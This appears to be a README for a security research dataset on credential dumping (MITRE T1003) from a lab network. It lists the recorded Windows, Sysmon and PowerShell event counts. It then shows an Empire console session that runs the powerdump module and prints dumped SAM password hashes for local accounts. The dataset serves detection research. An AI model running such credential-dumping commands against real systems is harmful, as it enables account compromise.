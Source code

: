 # Empire Powerdump

Dumping hashes from HKLM:\SAM\SAM\Domains\ registry keys.

## Technique(s) ID

T1003

## Creators

Roberto Rodriguez [@Cyb3rWard0g](https://twitter.com/Cyb3rWard0g)

## Dataset

[empire_powerdump.tar.gz](./empire_powerdump.tar.gz)

## Network Environment

Shire

## Time Taken

2019-05-18225051

## About this file

| log_name                                   | source_name                         | task                                                   |   record_number |
|--------------------------------------------|-------------------------------------|--------------------------------------------------------|-----------------|
| Windows PowerShell                         | PowerShell                          | Pipeline Execution Details                             |             382 |
| Windows PowerShell                         | PowerShell                          | Provider Lifecycle                                     |               8 |
| Windows PowerShell                         | PowerShell                          | Engine Lifecycle                                       |               1 |
| Security                                   | Microsoft-Windows-Security-Auditing | Filtering Platform Connection                          |             109 |
| Security                                   | Microsoft-Windows-Security-Auditing | Token Right Adjusted Events                            |              66 |
| Security                                   | Microsoft-Windows-Security-Auditing | Registry                                               |              20 |
| Security                                   | Microsoft-Windows-Security-Auditing | Process Termination                                    |               9 |
| Security                                   | Microsoft-Windows-Security-Auditing | Process Creation                                       |               7 |
| Security                                   | Microsoft-Windows-Security-Auditing | Handle Manipulation                                    |               6 |
| Security                                   | Microsoft-Windows-Security-Auditing | Group Membership                                       |               5 |
| Security                                   | Microsoft-Windows-Security-Auditing | Logoff                                                 |               5 |
| Security                                   | Microsoft-Windows-Security-Auditing | Logon                                                  |               5 |
| Security                                   | Microsoft-Windows-Security-Auditing | Special Logon                                          |               4 |
| Security                                   | Microsoft-Windows-Security-Auditing | Kernel Object                                          |               3 |
| Security                                   | Microsoft-Windows-Security-Auditing | Sensitive Privilege Use                                |               3 |
| Security                                   | Microsoft-Windows-Security-Auditing | Authorization Policy Change                            |               2 |
| Security                                   | Microsoft-Windows-Security-Auditing | File Share                                             |               2 |
| Security                                   | Microsoft-Windows-Security-Auditing | Detailed File Share                                    |               1 |
| Security                                   | Microsoft-Windows-Security-Auditing | Other Object Access Events                             |               1 |
| Microsoft-Windows-WMI-Activity/Operational | Microsoft-Windows-WMI-Activity      | na                                                     |               1 |
| Microsoft-Windows-Sysmon/Operational       | Microsoft-Windows-Sysmon            | Process accessed (rule: ProcessAccess)                 |             206 |
| Microsoft-Windows-Sysmon/Operational       | Microsoft-Windows-Sysmon            | Image loaded (rule: ImageLoad)                         |             182 |
| Microsoft-Windows-Sysmon/Operational       | Microsoft-Windows-Sysmon            | Network connection detected (rule: NetworkConnect)     |              98 |
| Microsoft-Windows-Sysmon/Operational       | Microsoft-Windows-Sysmon            | Registry object added or deleted (rule: RegistryEvent) |              66 |
| Microsoft-Windows-Sysmon/Operational       | Microsoft-Windows-Sysmon            | File created (rule: FileCreate)                        |              38 |
| Microsoft-Windows-Sysmon/Operational       | Microsoft-Windows-Sysmon            | Pipe Connected (rule: PipeEvent)                       |              17 |
| Microsoft-Windows-Sysmon/Operational       | Microsoft-Windows-Sysmon            | Process terminated (rule: ProcessTerminate)            |               9 |
| Microsoft-Windows-Sysmon/Operational       | Microsoft-Windows-Sysmon            | Process Create (rule: ProcessCreate)                   |               7 |
| Microsoft-Windows-Sysmon/Operational       | Microsoft-Windows-Sysmon            | Registry value set (rule: RegistryEvent)               |               4 |
| Microsoft-Windows-PowerShell/Operational   | Microsoft-Windows-PowerShell        | Executing Pipeline                                     |             323 |

## Attacker Activity

```
(Empire: TKV35P8X) > usemodule credentials/powerdump*
(Empire: powershell/credentials/powerdump) > info

              Name: Invoke-PowerDump
            Module: powershell/credentials/powerdump
        NeedsAdmin: True
         OpsecSafe: True
          Language: powershell
MinLanguageVersion: 2
        Background: True
   OutputExtension: None

Authors:
  DarkOperator
  winfang
  Kathy Peters
  ReL1K

Description:
  Dumps hashes from the local system using Posh-SecMod's
  Invoke-PowerDump

Comments:
  https://github.com/darkoperator/Posh-
  SecMod/blob/master/PostExploitation/PostExploitation.psm1

Options:

  Name  Required    Value                     Description
  ----  --------    -------                   -----------
  Agent True        TKV35P8X                  Agent to run module on.                 

(Empire: powershell/credentials/powerdump) > execute
[*] Tasked TKV35P8X to run TASK_CMD_JOB
[*] Agent TKV35P8X tasked with task ID 34
[*] Tasked agent TKV35P8X to run module powershell/credentials/powerdump
(Empire: powershell/credentials/powerdump) > Job started: 36KA8E
Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::


Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::


DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::


WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::


Nora:1001:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::




(Empire: powershell/credentials/powerdump) >
```